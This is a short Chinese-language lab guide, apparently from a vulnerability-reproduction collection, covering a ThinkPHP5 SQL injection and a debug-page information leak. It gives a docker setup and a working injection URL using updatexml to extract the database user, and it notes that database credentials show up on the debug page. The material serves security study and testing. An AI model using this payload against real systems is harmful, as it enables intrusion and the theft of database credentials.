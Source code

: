 # ThinkPHP5 SQL注入漏洞 && 敏感信息泄露

## 漏洞描述

漏洞原理说明：

- https://www.leavesongs.com/PENETRATION/thinkphp5-in-sqlinjection.html
- https://xz.aliyun.com/t/125

## 环境搭建

运行环境：

```
docker-compose up -d
```

启动后，访问`http://your-ip/index.php?ids[]=1&ids[]=2`，即可看到用户名被显示了出来，说明环境运行成功。

## 漏洞复现

访问`http://your-ip/index.php?ids[0,updatexml(0,concat(0xa,user()),0)]=1`，信息成功被爆出：

![image-20220302151819426](./images/202203021518532.png)

当然，这是一个比较鸡肋的SQL注入漏洞。但通过DEBUG页面，我们找到了数据库的账号、密码：

![image-20220302151841408](./images/202203021518495.png)

这又属于一个敏感信息泄露漏洞。

